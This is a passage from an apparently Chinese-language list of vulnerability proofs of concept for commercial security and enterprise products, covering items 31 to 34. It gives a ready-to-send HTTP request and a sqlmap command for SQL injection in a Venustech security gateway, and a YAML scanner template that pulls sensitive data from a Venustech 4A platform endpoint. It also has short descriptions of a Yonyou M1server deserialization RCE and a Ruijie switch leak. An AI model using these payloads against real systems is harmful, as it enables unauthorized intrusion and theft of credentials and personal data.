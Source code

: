 ### 31、启明天钥安全网关前台sql注入

POST /ops/index.php?c=Reportguide&a=checkrn HTTP/1.1
Host: ****
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="88", "Google Chrome";v="88", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Language: zh-CN,zh;q=0.9
Cookie: ****
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
checkname=123&tagid=123


sqlmap -u "https://****/ops/index.php?c=Reportguide&a=checkrn" --data "checkname=123&tagid=123" -v3 --skip-waf --random-agent

### 32、用友M1server反序列化命令执行漏洞）

漏洞描述：
M1移动协同是针对管理者、高端商务人士、长期在外走访客户的业务人员以及日常外出的行业者而打造的协同应用。该应用平台存在反序列化漏洞，攻击者构造恶意包可以执行任意命令获取服务器权限
POC待补充
### 33、启明星辰-4A 统一安全管控平台 getMater 信息泄漏

漏洞描述：
启明星辰集团4A统一安全管控平台实现IT资源集中管理,为企业提供集中的账号、认证、授权、审计管理技术支撑及配套流程,提升系统安全性和可管理能力。可获取相关人员敏感信息。

poc:
  relative: req0
  session: false
  requests:
  - method: GET
    timeout: 10
    path: /accountApi/getMaster.do
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/65.0.881.36 Safari/537.36
    follow_redirects: true
    matches: (code.eq("200") && body.contains("\"state\":true"))
修复建议：
限制文件访问
### 34、锐捷交换机 WEB 管理系统 EXCU_SHELL 信息泄露
